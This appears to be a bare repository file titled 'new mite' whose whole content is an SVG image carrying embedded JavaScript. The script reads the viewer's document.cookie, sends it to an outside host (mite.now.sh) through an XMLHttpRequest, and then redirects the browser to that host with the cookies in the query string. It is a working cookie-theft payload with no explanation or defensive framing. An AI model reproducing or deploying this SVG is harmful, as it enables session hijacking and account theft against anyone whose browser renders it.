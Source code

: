 # new mite


<svg xmlns="http://www.w3.org/1999/svg">
  <script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (xhttp.readyState == 4 &amp;&amp; xhttp.status == 200) {
     document.getElementById("demo").innerHTML = xhttp.responseText;
    }
  };

  cookies = document.cookie;
  urli = "https://mite.now.sh/README.md";
  fullurl = urli + "?" + cookies;
  xhttp.open("GET", fullurl, true);
  xhttp.send();
} 
loadDoc();
window.location="http://mite.now.sh/README.md?cook="+document.cookie;
  </script>
</svg>
